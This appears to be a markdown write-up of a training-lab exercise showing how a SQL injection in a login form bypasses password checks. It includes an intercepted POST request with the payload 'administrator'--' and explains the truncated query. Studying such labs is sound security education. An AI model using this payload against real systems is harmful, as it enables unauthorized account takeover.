

Here is the complete, raw markdown file structure including the final section to complete the file:

# Lab: SQL Injection Vulnerability Allowing Login Bypass## 1. Normal Authentication FlowWhen a user logs in normally, the application checks both credentials using an `AND` logical operator:

### Behind the Scenes Query```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'secretPassword'
```* **Logic:** The database returns a valid user record *only* if the username exists and the password matches.
---## 2. Intercepted Request Analysis*As captured in your Burp Suite screenshot:*
### HTTP Post Request Body```http
POST /login HTTP/2
Host: 0a5e005004408a6c807662fd00a50088.web-security-academy.net
...
csrf=phXUNpGYZsJR4z1J9bhea3uS06qTabWh&username=administrator'--&password='--
```
### Parameter Decoding* **Raw Input:** `username=administrator%27--`
* **URL Decoded:** `administrator'--`
---## 3. The SQL Injection Attack MechanismBy adding a single quote (`'`) and the SQL comment sequence (`--`), the structure of the database command changes completely.
### The Altered SQL Statement```sql
SELECT * FROM users WHERE username = 'administrator' -- ' AND password = '...'
```
### Breakdown of Database Execution Logic
| Component | Code Fragment | How the Database Sees It |
| :--- | :--- | :--- |
| **Target User** | `username = 'administrator'` | Evaluates to **TRUE** because the user exists in the database. |
| **Attack Vector** | `'` | Closes the input string literal early. |
| **Comment Trigger** | `--` | Instructs the database engine to treat all remaining query text as a comment. |
| **Truncated Check** | `' AND password = '...'` | **Ignored entirely** by the database execution engine. |
```
### 4. Final Exploitation Result

[ Database processes truncated query ]
|
v
[ Evaluates TRUE solely on the username row ]
|
v
[ Returns 'administrator' user profile to app ]
|
v
[ Logged in as administrator without a password! ]


> ## 🎉 Congratulations! Lab Solved
> The application parses the valid database record response and successfully signs you in as the administrator, bypassing the password validation block completely.


